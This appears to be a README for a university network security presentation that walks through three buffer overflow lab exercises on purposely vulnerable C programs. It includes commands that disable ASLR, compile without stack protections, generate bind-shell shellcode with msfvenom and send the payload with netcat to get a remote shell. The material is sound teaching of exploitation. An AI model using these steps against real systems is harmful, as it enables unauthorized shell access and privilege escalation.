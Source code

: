 # NetworkSecurityPresentation
Presentation for the NetSec course based on Buffer overflow exploit

# Requisite
    
## disable memory randomization, enable core dumps
```bash
    cat /proc/sys/kernel/randomize_va_space
    sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
    sudo sysctl -p
    cat /proc/sys/kernel/randomize_va_space
    # verify "0"
    ulimit -c unlimited
    ulimit -c
    # verify "unlimited"
```

# First Exercise

The first exercise consists in overwrite a variable used to grant permission to a user using the `strcpy()` vulnerable function

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise1.c -o exercise1
```

## Execution
```bash
    cd /path/to/repo/src
    ./exercise input
```
# Second Exercise

The second exercise consists in overwrite the `%eip` register of the stack in order to redirect the program to a chosen function using the `strcpy()` vulnerable function and the `gdb` debugger in order to find out the right number of junk chars to fill up the stack

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise2.c -o exercise2
```

## Find out the function register
```bash
    cd /path/to/repo/src
    objdump -d exercise2 | grep <function_name>
```
## Execution
```bash
    cd /path/to/repo/src
    ./exercise $(python2 -c 'print"A"*<num_char> + "function register"')
```
    keep in mind that the intel cpu are Little Endian so pay attention when insert the register
# Third Exercise
The third exercise consists in overwrite the `%eip` register of the stack and fill up the buffer with a shellcode in order to spawn a remote shell possibly with root privileges
## Compilation server
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g p4-server.c -o p4-server
```

## Create a shellcode using msfvenom
```bash
    msfvenom -p linux/x86/shell_bind_tcp AppendExit=true -e x86/alpha_mixed -f python
```
## Execution server
```bash
    cd /path/to/repo/src
    ./p4-server
```

## Execution Client
```bash
    ./generate_malicious_string > string
    nc <server_port> 4001 < string 
    to generate the malicious string use the buffer output of the previous command and the %eip register found using the debugger

    nc <server_port> 4444 
    here's your remote shell :)
```
